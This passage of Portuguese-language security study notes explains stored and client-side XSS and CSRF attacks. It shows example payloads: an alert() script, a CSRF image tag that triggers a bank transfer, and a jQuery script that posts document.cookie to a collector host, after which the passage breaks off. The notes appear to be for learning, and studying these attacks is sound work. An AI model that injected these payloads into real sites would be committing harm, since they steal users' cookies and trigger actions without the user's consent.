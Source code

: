- **Client Side**: Code that loads dynamic content into the webpage using Javascript is usually the cause of these types of attacks. Using the Web Inspector (e.g F12 in Firefox) we can find < script > tags that aren't evaluated directly but are instead included as Javascript object handlers (e.g, onload, onclick, onhover, ...)

### Server Side attack

Comentamos num post. Fazendo isto estamos a adicionar conteudo ao server, conteudo este que irá ser stored para ser mostrado (loaded) a toda a gente que entra no post.

Por tentativa e erro podemos descobrir que o campo de nome está protegido, mas a descrição do post não. Então podemos fazer o seguinte post:

```html
<script>alert("Server Side XSS Attack")</script>
```

O server vai guardar este comentario e vai dar load e executar o script sempre que alguem entrar no post.

## CSRF Attack

Injetar script que, utilizando as credenciais e capacidades do browser, pode atacar outro sistema. Pode ser utilizado para DoS ou DDoS.

![CSRF Attack](https://i.imgur.com/tWzeRGr.png)

Funciona da seguinte forma. Atualmente, grande parte dos sites que guardam as nossas credenciais utilizam **cookies**. As cookies são uma espécie de *cache*.

Para estes ataques, é frequente a utilização da tag ```<img>```

### Exemplo de ataque

```html
LOL. That was a good one Op. :) <img src='http://vulnerable-bank.com/transfer.jsp?amount=1000 &to_nib=12345300033233'></img> 
```

Quando o browser tenta carregar a imagem, invoca uma ação para o servidor executar. Neste caso hipotético, transferiria 1000 € para aquele nib.

Por vezes, é necessário javascript.

Se comentarmos o seguinte:

```html
<script>
    $.ajax({
        url: 'http://localhost:8000/cookie',
        type: 'POST',
        data: "username=Administrator;cookie=a"+document.cookie,
    })
</script>
```
